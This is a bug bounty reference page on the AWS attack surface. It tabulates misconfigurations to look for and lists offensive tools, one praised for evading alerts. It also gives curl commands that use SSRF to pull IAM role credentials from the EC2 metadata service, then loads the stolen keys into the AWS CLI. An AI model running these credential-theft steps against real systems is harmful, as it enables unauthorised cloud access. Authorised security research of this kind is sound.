

> Source: https://bugbounty.info/Attack-Surface/Cloud/AWS/index

# AWS Attack Surface

AWS is the dominant cloud provider in bug bounty targets. If a program runs on cloud, odds are it's AWS. The attack surface is massive: storage, compute, serverless, auth, database, queues, CDN. I focus on the areas that convert most often.

## Core Services to Target

| Service | What I'm Looking For |
| --- | --- |
| S3 | Public buckets, write access, policy misconfigs |
| IAM | Over-permissive roles, privilege escalation paths |
| EC2 | Metadata service via SSRF, user-data secrets |
| Lambda | Env var leaks, event injection, function URL bypass |
| Cognito | Self-signup, attribute manipulation, identity pools |
| ECR | Public container registries with sensitive images |
| Secrets Manager / SSM | Accessible secrets via over-permissive IAM |
| RDS | Publicly accessible instances, snapshot sharing |

## Attack Path from SSRF



## SSRF to Creds

```bash
# Classic IMDSv1 (no auth required)
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
 
# IMDSv2 (requires token - still exploitable via SSRF if you can set headers)
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
```

Once you have `AccessKeyId`, `SecretAccessKey`, and `Token`, configure them:

```bash
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
aws sts get-caller-identity
```

## Sub-Pages

- [S3 Misconfiguration](../../../Attack-Surface/Cloud/AWS/S3-Misconfiguration) - Bucket enumeration, write access, policy abuse
- [IAM Privilege Escalation](../../../Attack-Surface/Cloud/AWS/IAM-Privilege-Escalation) - Role chaining, Pacu, known escalation paths
- [Lambda](../../../Attack-Surface/Cloud/AWS/Lambda) - Serverless event injection, env vars, function URLs
- [Cognito](../../../Attack-Surface/Cloud/AWS/Cognito) - Auth misconfigs, self-signup, identity pool bypass

## Key Tools

- `enumerate-iam` - figures out what a key can do without triggering obvious alerts
- `Pacu` - modular AWS exploitation framework, great for iam__privesc_scan
- `aws-cli` - essential, learn the `--query` flag
- `cloudfox` - surfaces accessible resources from a given starting point
- `s3scanner` - bulk bucket enumeration

## What Programs Get Wrong

Most bug bounty programs that run AWS don't have SCPs (Service Control Policies) enforcing least-privilege across accounts. Dev/staging IAM roles often have broader permissions than prod, and they frequently share infrastructure. If you find creds, always check what account you're in with `aws sts get-caller-identity` and enumerate org structure if you have `organizations:` permissions.

## Related

- [Cloud Overview](../../../Attack-Surface/Cloud/)
- [CD](../../../Attack-Surface/CI-CD/) - where AWS keys get accidentally committed
